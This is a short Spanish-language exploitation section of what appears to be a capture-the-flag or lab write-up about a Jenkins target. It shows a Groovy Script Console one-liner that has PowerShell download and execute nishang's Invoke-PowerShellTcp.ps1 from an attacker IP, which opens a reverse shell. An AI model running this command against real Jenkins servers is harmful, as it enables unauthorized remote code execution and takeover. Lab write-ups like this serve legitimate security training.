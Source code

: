 # Explotación

## RCE 1

### Pasos previos | Preparación

Jenkins ofrece una consola de scripts siguiendo la sintáxis de Groovy, disponible en `Build Executor Status > master > Script Console`.

![Consola de scripts de Jenkins](images/exploit_1.png)

Al visualizar la sintáxis necesaria para ejecutar comandos de consola expuesta en la misma sección, se preparó la reverse shell de [nishang](https://github.com/samratashok/nishang) ejecutando al final del archivo la función empleada para entablar una reverse shell `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443`.

### Ejecución

Se envió la invocación al recurso expuesto mediante la consola de scripts:

```groovy
print "powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')".execute().text
```

Estableciendo así la reverse shell.
